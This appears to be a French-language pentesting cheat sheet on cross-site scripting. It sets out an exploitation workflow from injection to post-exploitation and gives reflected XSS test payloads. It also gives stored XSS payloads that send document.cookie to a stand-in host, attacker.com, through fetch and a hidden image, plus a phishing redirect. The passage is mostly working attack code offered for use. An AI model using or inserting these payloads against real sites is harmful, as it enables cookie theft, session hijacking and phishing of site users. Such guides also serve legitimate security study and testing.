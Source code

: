 # Cross-Site Scripting (XSS) - Guide Complet

## 🗂️ Workflow d'exploitation XSS
1. Identification des points d'injection (paramètres, formulaires, headers)
   ↓
2. Test des filtres et protections (caractères, mots-clés, CSP)
   ↓
3. Développement du payload adapté (reflected, stored, DOM)
   ↓
4. Bypass des protections (encodage, obfuscation, techniques avancées)
   ↓
5. Exploitation (vol de cookies, redirection, keylogger, etc.)
   ↓
6. Post-exploitation (persistance, pivoting, élévation)

## 📋 Vue d'ensemble

Les failles XSS permettent d'injecter du code JavaScript malveillant dans une application web, qui sera ensuite exécuté dans le navigateur des victimes.

> **💡 Explication Simple** : C'est comme glisser un faux message dans le journal de l'école. Quand les autres élèves lisent le journal, ils voient votre message et peuvent faire ce que vous voulez qu'ils fassent.

## 🎯 Types de XSS

### Reflected XSS (Non-persistant)
```html
<!-- URL vulnérable -->
http://site.com/search?q=<script>alert('XSS')</script>

<!-- Tests de base -->
<script>alert('XSS')</script>
<script>alert(1)</script>
<script>alert(document.domain)</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

### Stored XSS (Persistant)
```html
<!-- Dans un commentaire, profil, message -->
<script>
// Payload qui vole les cookies
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

<!-- Payload discret -->
<img src="http://attacker.com/logger?cookie=" + document.cookie style="display:none">

<!-- Redirection malveillante -->
<script>window.location='http://attacker.com/phishing'</script>
```
